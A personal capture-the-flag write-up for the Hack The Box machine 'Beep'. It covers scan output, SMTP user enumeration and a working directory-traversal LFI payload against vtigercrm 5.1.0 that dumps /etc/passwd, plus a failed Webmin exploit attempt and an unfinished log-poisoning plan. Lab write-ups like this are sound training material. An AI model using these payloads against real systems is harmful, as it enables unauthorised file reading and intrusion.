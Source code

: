 # Beep

## Recon

Tags: LFI, web 

### Scan findings
```nmap
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack ttl 63 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NAMESPACE THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED URLAUTHA0001 LISTEXT OK X-NETSCAPE IDLE RENAME CATENATE CONDSTORE MULTIAPPEND THREAD=REFERENCES ANNOTATEMORE Completed SORT=MODSEQ SORT IMAP4rev1 ATOMIC NO QUOTA BINARY LITERAL+ ACL CHILDREN ID IMAP4 STARTTLS MAILBOX-REFERRALS UNSELECT UIDPLUS RIGHTS=kxte
443/tcp   open  ssl/http   syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry
|_/
878/tcp   open  status     syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      syn-ack ttl 63 Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack ttl 63
4559/tcp  open  hylafax    syn-ack ttl 63 HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack ttl 63 Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 2.6.9 - 2.6.24 (95%),
```

Some users found on port 25
```
[25][smtp-enum] host: 10.10.10.7   login: info  
[25][smtp-enum] host: 10.10.10.7   login: adm  
[25][smtp-enum] host: 10.10.10.7   login: root  
[25][smtp-enum] host: 10.10.10.7   login: mysql  
[25][smtp-enum] host: 10.10.10.7   login: ftp
```

https webserver has a few webpages
```
200        1l        6w      894c https://10.10.10.7/favicon.ico  
200        2l        4w       28c https://10.10.10.7/robots.txt  
200       35l      111w     1785c https://10.10.10.7/  
200       35l      111w     1785c https://10.10.10.7/config.php  
200       35l      111w     1785c https://10.10.10.7/index.php  
200       35l      111w     1785c https://10.10.10.7/register.php
```

## Enumeration

The site on 443 is an Elastics CRM login page.  
![[Pasted image 20220113213548.png]]

## Exploitation

It might be this, considering the LFI tag.  
![[Pasted image 20220113212032.png]]

That exploit doesn't work, however it does help to enumerate vtigercrm. I checked, and sure enough it's on this box. The login page even discloses the version `5.1.0`

![[Pasted image 20220113213050.png]]

This new exploit [EDB-18770](https://www.exploit-db.com/exploits/18770), suggests the following url: `https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

Sure enough, I can read files now.

![[Pasted image 20220113213426.png]]

After some testing, it looks like we only need to go up 4 directories in the directory traversal: `/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../etc/passwd%00`

Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

I was able to get the user flag using LFI

![[Pasted image 20220113215313.png]]

## more Enumeration

There is also a webserver on port 10000.  
![[Pasted image 20220114211041.png]]

An nmap script picked up `CVE-2006-3392`  
![[Pasted image 20220114213707.png]]  
This CVE is linked to [EDB-1997](http://www.exploit-db.com/exploits/1997/).  

Reviewing the exploit shows usage on line 50. No changes are necessary; all variables are provided at runtime instead of hardcoded in varaibles.  
![[Pasted image 20220114214954.png]]

This exploit is throwing errors:  
![[Pasted image 20220114215506.png]]

I found [this answer on StackOverflow](https://stackoverflow.com/a/6382581).  
![[Pasted image 20220114215646.png]]  
Installing the proper version for my php package.  

To identify php version:
```bash
php --version
```
Then install proper version:
```bash
sudo apt install php7.4-curl
```

![[Pasted image 20220114215957.png]]

It appears this exploit is not working even with php-curl installed.

There are a bunch of SSL errors in the NMAP output. It seems Autorecon was scanning using HTTP instead of HTTPS. Will re-run some scans with https.

These commands should be re-run using HTTPS instead of HTTP.
```
curl -sSik https://10.10.10.7:10000/ &&
curl -sSikf https://10.10.10.7:10000/.well-known/security.txt &&
curl -sSikf https://10.10.10.7:10000/robots.txt &&

nmap -vv --reason -Pn -T4 -sV -p 10000 --script="banner,(https* or ssl*) and not (brute or broadcast or dos or external or https-slowloris* or fuzzer)" -oN "/home/nate/hackthebox/beep/scans/tcp10000/tcp_10000_https_nmap.txt" -oX "/home/nate/hackthebox/beep/scans/tcp10000/xml/tcp_10000_https_nmap.xml" 10.10.10.7 &&

whatweb --color=never --no-errors -a 3 -v https://10.10.10.7:10000 2>&1
```

```bash
feroxbuster -u https://10.10.10.7:10000/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "php,bin,txt" -v -k -n -o /home/nate/hackthebox/beep/scans/tcp80/tcp_80_http_feroxbuster_https.txt
```



## Privilege Escalation.

I still don't have code execution. I should probably look around at other files to see if any credentials can be read. Or maybe I can poison some logs and gain code exection.

## Searching for logs to poison.


